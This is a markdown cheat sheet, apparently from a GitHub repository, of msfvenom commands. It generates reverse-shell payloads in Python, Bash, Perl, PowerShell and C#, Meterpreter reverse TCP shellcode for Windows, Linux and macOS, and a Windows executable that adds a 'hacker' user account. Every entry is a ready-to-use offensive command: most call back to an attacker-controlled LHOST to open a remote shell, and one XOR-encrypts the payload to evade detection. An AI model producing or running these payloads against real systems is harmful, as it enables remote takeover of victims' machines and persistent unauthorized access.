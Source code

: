 ## Python Reverse Shell
```
msfvenom -p cmd/unix/reverse_python LHOST=<ip> LPORT=<port> -f raw > shell.py
```

## Bash Unix Reverse Shell
```
msfvenom -p cmd/unix/reverse_bash LHOST=<ip> LPORT=<port> -f raw > shell.sh
```

## Perl Unix Reverse shell
```
msfvenom -p cmd/unix/reverse_perl LHOST=<ip> LPORT=<port> -f raw > shell.pl
```

## Powershell
```
msfvenom -p windows/meterpreter/reverse_https LHOST=<ip> LPORT=<port|443> EXITFUNC=thread -f ps1
```

## Csharp - xor encrypted
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<ip> LPORT=<port|443> --encrypt xor --encrypt-key <key> -f csharp
```

# msfvenom Shellcode

## Windows Meterpreter Reverse TCP Shellcode
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f <language>
```

## Linux Meterpreter Reverse TCP Shellcode
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f <language>
```

## Mac Reverse TCP Shellcode
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f <language>
```

# msfvenom create user 

## MCreate User
```
msfvenom -p windows/adduser USER=<user|hacker> PASS='<pass|Hacker123$>' -f exe > adduser.exe
```
